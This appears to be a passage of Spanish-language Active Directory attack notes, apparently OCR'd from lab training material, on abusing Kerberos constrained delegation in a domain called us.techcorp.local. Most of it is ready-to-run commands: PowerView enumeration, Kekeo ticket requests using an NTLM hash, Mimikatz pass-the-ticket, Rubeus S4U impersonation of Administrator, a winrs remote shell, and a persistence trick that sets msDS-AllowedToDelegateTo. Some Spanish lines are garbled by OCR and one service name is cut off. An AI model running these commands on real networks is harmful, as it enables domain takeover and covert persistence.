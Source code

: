 1. Un usuario se autentica en el servicio web utilizando un dispositivo que no es Kerberos.
mecanismo de autenticación compatible.
2. El servicio web solicita un ticket al Centro distribución de claves (KDC) para la cuenta del usuario sin proporcionar una contraseña,
como cuenta de servicio web.
3. El KDC comprueba el valor userAccountControl del servicio web para el atributo TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION,
y la cuenta de ese usuario no está bloqueada para la delegación. Si esta bien devuelve un ticket reenviable para la cuenta del usuario (S4U2Self).
4. El servicio luego devuelve este boleto al KDC y solicita un ticket de servicio para el servicio SQL Server.
5. El KDC comprueba el campo msDS-AllowToDelegateTo en el cuenta de servicio web. Si el servicio aparece en la lista, devolverá un ticket de servicio para MSSQL (S4U2Proxy).
6. El servicio web ahora puede autenticarse en el servidor SQL como el usuario que utiliza el TGS suministrado.

PowerView: `Get-DomainUser –TrustedToAuth` , `Get-DomainComputer –TrustedToAuth`

AD: `Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`

Usando Kekeo, solicitamos un TGT para la cuenta de servicio del primer salto (podemos
usar una contraseña o hash NTLM):

`tgt::ask /user:appsvc /domain:us.techcorp.local /rc4:1D49D390AC01D568F0EE9BE82BB74D4C`

Otro tema interesante en Kerberos es que la delegación no ocurre solo para el servicio especificado, pero para cualquier servicio que se ejecute bajo la misma cuenta. No hay validación para el SPN especificado.
Esto es grande, ya que permite el acceso a muchos servicios interesantes cuando la delegación puede ser para un servicio no intrusivo

Usando kekeo, hacemos una peticion TGS:

`tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.local@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/usmssql.us.techcorp.loc`

Usando mimikatz:

`Invoke-Mimikatz '"kerberos::ptt TGS_Administrator@US.TECHCORP.LOCAL_HTTP~usmssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"'`

`Invoke-Command -ScriptBlock{whoami} -ComputerName usmssql.us.techcorp.local`

Usando Rubeus:

`Rubeus.exe s4u /user:appsvc
/rc4:1D49D390AC01D568F0EE9BE82BB74D4C
/impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /altservice:HTTP
/domain:us.techcorp.local /ptt`

`winrs -r:us-mssql cmd.exe`

Persistence - msDS-AllowedToDelegateTo

- Tenga en cuenta que msDS-AllowToDelegateTo es la marca de la cuenta de usuario que
controla los servicios a los que tiene acceso una cuenta de usuario.
- Esto significa que, con suficientes privilegios, es posible acceder a cualquier servicio
de un usuario: un buen truco de persistencia.
- ¿Suficientes privilegios? - SeEnableDelegationPrivilege en el DC y completo
derechos en el usuario de destino: predeterminado para administradores de dominio y empresas Administradores.
- Es decir, podemos forzar el conjunto 'De confianza para autenticar para delegación' y
ms-DS-allowedToDelegateTo en un usuario (o crear un nuevo usuario, que es
más ruidoso) y abusar de él más tarde.
